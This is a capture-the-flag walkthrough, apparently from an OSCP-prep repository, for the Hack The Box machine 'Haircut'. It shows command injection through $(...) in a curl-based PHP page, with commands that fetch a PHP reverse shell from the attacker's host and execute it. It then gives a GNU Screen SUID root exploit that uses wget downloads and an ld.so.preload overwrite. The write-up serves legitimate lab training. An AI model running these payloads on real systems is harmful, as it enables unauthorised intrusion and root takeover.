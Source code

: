 ## Haircut

Difficulty: Medium

### User Flag

```
nmap 10.10.10.24 -T4
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/63b9967d-de79-41db-95f3-90218b0d6c55)

<br>

Enumerating port 80, we find exposed.php.

```
gobuster dir -u http://hairdresser.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40 -x php
```

![goBuster](https://github.com/b1d0ws/OSCP/assets/58514930/2414d7d2-90fa-40ea-908a-cddbf00a66ff)

<br>

There is this funcionality that use curl on the URL inputted.

![exposedPHP](https://github.com/b1d0ws/OSCP/assets/58514930/f7fdf28f-f133-4340-9cfd-54352708819b)

<br>

We can do some command injection with $(COMMAND). Other injections with "; & |" are blocked.

![firstInjection](https://github.com/b1d0ws/OSCP/assets/58514930/9c1770d6-8ac7-495a-a9da-ef31ca73db53)

<br>

To exploit this, we can upload a php-reverse-shell and execute it.

```
http://10.10.14.11/php-reverse-shell.php -o /tmp/php-reverse-shell.php
http://$(php /tmp/php-reverse-shell.php)
```

### Root Flag

Enumerating SUID bits, there is Screen binary that is uncommon.

![suid](https://github.com/b1d0ws/OSCP/assets/58514930/54c4d7cc-9272-4a01-9276-5e8878b5ccc3)

<br>

Searching for it, we find a [exploit](https://www.exploit-db.com/exploits/41154) for this.

![findingExploit](https://github.com/b1d0ws/OSCP/assets/58514930/9e610fc2-71f3-4166-9149-f0feec7fa6e0)

<br>

Now we need to manually create the files needed to the exploit, upload them to the victim and them execute the final of the exploit

```bash

# On Our Machine
nano libhax.c
gcc -fPIC -shared -ldl -o libhax.so libhax.c
nano rootshell.c
gcc -o rootshell rootshell.c

# On Victim Machine
# Upload the 2 compiled files python to /tmp directory
wget http://10.10.14.11:9006/libhax.so && wget http://10.10.14.11:9006/rootshell
chmod +x libhax.so rootshell
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

![compilingExploit](https://github.com/b1d0ws/OSCP/assets/58514930/e2d94e21-d4e9-4661-9649-da9845a12898)

![gettingRoot](https://github.com/b1d0ws/OSCP/assets/58514930/5a548717-ce0a-424a-a59a-ffac28ff67cd)
